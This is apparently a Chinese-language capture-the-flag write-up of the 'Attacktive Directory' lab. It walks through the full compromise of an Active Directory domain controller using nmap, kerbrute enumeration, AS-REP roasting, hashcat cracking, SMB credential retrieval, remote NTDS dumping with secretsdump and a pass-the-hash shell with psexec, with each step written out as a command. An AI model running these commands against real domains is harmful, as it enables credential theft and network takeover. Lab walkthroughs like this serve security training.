 # Attacktive Directory

99%的公司网络都使用AD。但您能利用易受攻击的域控制器吗？

---

## 端口扫描

循例 nmap扫：

    53/tcp   open  domain
    80/tcp   open  http
    88/tcp   open  kerberos-sec
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    389/tcp  open  ldap
    445/tcp  open  microsoft-ds
    464/tcp  open  kpasswd5
    593/tcp  open  http-rpc-epmap
    636/tcp  open  ldapssl
    3268/tcp open  globalcatLDAP
    3269/tcp open  globalcatLDAPssl
    3389/tcp open  ms-wbt-server

enum4linux枚举smb

通过访问3389，我们得知 spookysec.local

## Kerberos账户枚举 

Kerbrute 发送没有预身份验证的 TGT 请求。如果 KDC 响应错误，则用户名不存在。但是，如果 KDC 提示进行预身份验证，则我们知道用户名存在，我们将继续操作。这不会导致任何登录失败，因此不会锁定任何帐户。

    ./windows-tools_and_exp/kerbrute userenum -d spookysec.local --dc 10.10.110.53 ./test1.txt

我们发现：

    svc-admin@spookysec.local
    backup@spookysec.local
    administrator@spookysec.local

## AS-REP烘培

用户帐户枚举完成后，我们可以尝试使用称为 ASREPRoasting 的攻击方法滥用 Kerberos 中的功能。当用户帐户设置了“不需要预身份验证”权限时，就会发生 ASReproasting。这意味着，在指定用户帐户上请求 Kerberos 票证之前，该帐户无需提供有效标识。

Impacket有一个名为“GetNPUsers.py”的工具（位于/usr/share/doc/python3-impacket/examples/GetNPUsers.py），允许我们从密钥分发中心查询ASReproastable帐户。查询帐户唯一需要的是一组有效的用户名，我们之前通过 Kerbrute 枚举了这些用户名。

新建文件，内容：

    svc-admin
    backup
    administrator

运行GetNPUsers.py

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -usersfile ./test1.txt -dc-ip 10.10.110.53 -no-pass -request spookysec.local/

hashcat爆破：

    hashcat -a 0 -m 18200 ./hash /usr/share/wordlists/rockyou.txt

## SMB列举

    smbclient -L 10.10.110.53 -U svc-admin@spookysec.local

进入backup共享文件夹：

    smbclient //10.10.110.53/backup -U svc-admin@spookysec.local

    get backup_credentials.txt

里面是base64:

    echo "********" | base64 -d

## 远程转储ntds

3389连进去，开了AV，mimikatz用不了

使用secretsdump.py

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc spookysec.local/backup@10.10.110.53

获得ntlm hash之后我们使用psexec.py来通过pass the hash获得cmd会话

    python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes **************:************ spookysec.local/Administrator@10.10.110.53
